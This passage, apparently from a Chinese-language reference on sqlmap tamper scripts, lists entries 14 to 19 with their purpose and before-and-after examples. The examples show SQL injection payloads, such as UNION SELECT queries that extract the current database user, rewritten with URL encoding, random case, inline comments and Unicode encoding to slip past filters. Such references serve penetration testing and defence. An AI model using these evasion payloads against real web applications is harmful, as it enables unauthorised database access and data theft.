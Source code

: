 作用：url 编码

```
SELECT FIELD FROM%20TABLE替换后 %53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45
```

14、randomcase.py

作用：随机大小写

```
INSERT替换后 InsERt
```

15、versionedkeywords.py

作用：注释绕过 

```
('1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT\_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#') 替换后 1/\*!UNION\*//\*!ALL\*//\*!SELECT\*//\*!NULL\*/,/\*!NULL\*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT\_USER()/\*!AS\*//\*!CHAR\*/),CHAR(32)),CHAR(58,100,114,117,58))#
```

16、space2comment.py

作用：将空格替换为 /\*\*/ 

```
SELECT id FROM users替换后 SELECT/\*\*/id/\*\*/FROM/\*\*/users
```

17、charunicodeencode.py

作用：字符串 unicode 编码

```
SELECT FIELD%20FROM TABLE替换后%u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045′
```

18、versionedmorekeywords.py

作用：注释绕过

```
1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT\_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))#
替换后1/\*!UNION\*\*!ALL\*\*!SELECT\*\*!NULL\*/,/\*!NULL\*/,/\*!CONCAT\*/(/\*!CHAR\*/(58,122,114,115,58),/\*!IFNULL\*/(CAST(/\*!CURRENT\_USER\*/()/\*!AS\*\*!CHAR\*/),/\*!CHAR\*/(32)),/\*!CHAR\*/(58,115,114,121,58))#
```

mysql 小于 5.1

19、halfversionedmorekeywords.py

作用：关键字前加注释

```
value’ UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT\_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND ‘QDWa’='QDWa
替换后value’/\*!0UNION/\*!0ALL/\*!0SELECT/\*!0CONCAT(/\*!0CHAR(58,107,112,113,58),/\*!0IFNULL(CAST(/\*!0CURRENT\_USER()/\*!0AS/\*!0CHAR),/\*!0CHAR(32)),/\*!0CHAR(58,97,110,121,58)), NULL, NULL#/\*!0AND ‘QDWa’='QDWa
```
